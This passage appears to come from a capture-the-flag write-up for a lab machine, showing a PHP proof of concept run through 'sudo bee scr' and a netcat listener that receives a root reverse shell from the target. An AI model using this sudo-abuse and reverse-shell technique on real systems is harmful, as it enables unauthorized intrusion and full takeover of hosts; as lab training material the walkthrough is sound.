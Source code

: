 Let's run the script:

```bash
john@dog$ sudo bee scr /home/johncusack/poc.php
```

Success! we get a response on our listener:

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.158] from (UNKNOWN) [10.129.218.143] 45186
root@dog:/var/www/html#  
```

Just like that we have Root!
